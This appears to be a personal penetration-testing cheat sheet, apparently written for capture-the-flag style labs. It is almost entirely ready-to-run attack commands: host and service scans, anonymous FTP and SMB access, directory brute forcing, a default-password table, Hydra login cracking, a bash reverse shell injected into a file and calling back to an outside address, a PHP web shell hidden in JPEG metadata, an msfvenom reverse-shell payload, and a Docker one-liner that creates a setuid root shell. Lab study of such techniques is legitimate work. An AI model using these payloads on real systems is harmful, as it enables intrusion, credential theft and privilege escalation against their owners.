 ```yaml
---
layout: default
---
```


<[Back to Main Page](../index.html)

# Usefull Commands

## Search for up hosts
```bash
nmap -sn 10.129.150.229
```

## Search for port and service Version
```bash
nmap -sV -p 80 10.129.150.229
```

## Fast Search for common ports
```bash
nmap -F 10.129.150.229
```

## Uses common scripts with Scan
```bash
nmap -sC 10.129.155.61
```

## FTP with anonymous account
```bash
ftp 10.129.150.226
Connected to 10.129.150.226.
220 (vsFTPd 3.0.3)
Name (10.129.150.226:kali): anonymous
331 Please specify the password.
Password: (Password can be anything)
```

## Access SMB unauthenticated
```bash
mbclient -L 10.129.150.229 -U " "%" "
smbclient \\\\10.129.150.229\\WorkShares -U " "%" "
```

## RDP with xfreerdp
```bash
xfreerdp -u:Administrator -v:10.129.150.233
```

## Enumerate Dir Busting
```bash
gobuster dir -u http://10.129.150.236/ -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://10.129.155.61/ -w /usr/share/wordlists/dirb/common.txt -x php
```

## SQL Injection with PHP
admin'# will comment code in PHP
for example when set out like below
```php
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

## Connect to SQL
```bash
sql -u root -h 10.129.150.236
```

## Common Passwords

|username|password|
|---|---|
|admin|admin123|
|admin|root123|
|admin|password1|
|admin|administrator1|
|admin|changeme1|
|admin|password123|
|admin|qwerty123|
|admin|administrator123|
|admin|changeme123|
|admin|admin|
|guest|guest|
|user|user|
|root|root|
|administrator|password|

## Initiate bash from reverse shell with python
python3 -c "import pty;pty.spawn('/bin/bash')"

## Inject reverse shell into file owned by a user
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.252/1234 0>&1' #" >> hackers

## Kerberos Enumeration
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'

## HTTP Brute Forcing
```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

## RPC / NetBios / SMB
```bash
rpcinfo -p $TARGET
nbtscan $TARGET
```
### list shares
```bash
smbclient -L //$TARGET -U ""
```

### null session
```bash
rpcclient -U "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

## SMTP User Enumeration
```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

## Injecting PHP into JPEG
```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

## Cracking Web Forums with Hydra
```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

## Cracking Common Protocols with Hydra
```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

## MSFVenom 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

## Cracking ZIP files
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

## Docker Priv Esclation
```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```
